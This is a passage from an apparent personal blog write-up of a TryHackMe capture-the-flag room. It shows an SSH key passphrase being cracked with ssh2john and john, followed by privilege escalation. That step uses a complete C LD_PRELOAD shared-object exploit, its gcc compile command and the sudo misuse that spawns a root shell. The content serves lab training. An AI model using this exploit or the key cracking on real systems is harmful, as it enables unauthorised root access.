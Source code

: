 ![rsa_protected](https://github.com/sixth-sensei/sixth-sensei.github.io/assets/31647166/378bfda8-38b0-455a-9e25-5a9cd1c586a1)

Found the id_rsa key to have a passphrase, so we'll have to create a john compatible hash with `ssh2john` and crack it

```bash
┌──(sixth-sensei㉿senseisec)-[~/THM/Creative]
└─$ ssh2john id_rsa > idrsa_john.txt
```

![rsa-crack](https://github.com/sixth-sensei/sixth-sensei.github.io/assets/31647166/e68f5444-7865-4e9d-9025-a87392e29778)

Now that we got the rsa file passphrase, let's authenticate again as saad

![user-shell](https://github.com/sixth-sensei/sixth-sensei.github.io/assets/31647166/7e7741cc-7b81-4682-821a-d06de51a4200)

## Privilege Escalation

Checking saad's privilege on the machine, we have

![sudo-l](https://github.com/sixth-sensei/sixth-sensei.github.io/assets/31647166/10caba94-7398-4c80-ab6a-9bf1c90c73ed)

We can notice `LD_PRELOAD` is present in `env_keep`, let's craft our exploit by creating a simple c script

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
Save and compile the script as a shared object `.so` using `gcc -fPIC -shared [exploitname].c -o [exploitname].so -nostartfiles`

![shell_code](https://github.com/sixth-sensei/sixth-sensei.github.io/assets/31647166/ba21571b-d196-4738-b8aa-0b9ad239d575)

Now we can simply set a new path for `LD_PRELOAD` and run this script as a command the user has sudo privileges on, which in this case is `ping`

![root-shell](https://github.com/sixth-sensei/sixth-sensei.github.io/assets/31647166/c612cd9d-c9e5-420d-9bd8-b4051c8c9d5e)

....and we're root! Listing the directory

![rootflag](https://github.com/sixth-sensei/sixth-sensei.github.io/assets/31647166/b528915e-00de-4cf0-b549-edefec715f34)

We can see our root flag, that marks the end h4x0r 🚀

![salute](https://media1.tenor.com/m/tVy1iyr9AMQAAAAC/mr-bean-thumbs-up.gif)

<br>

**See you again 👋🏽**


<button onclick="window.location.href='https://sixth-sensei.github.io';">Back To Home 🏠</button>

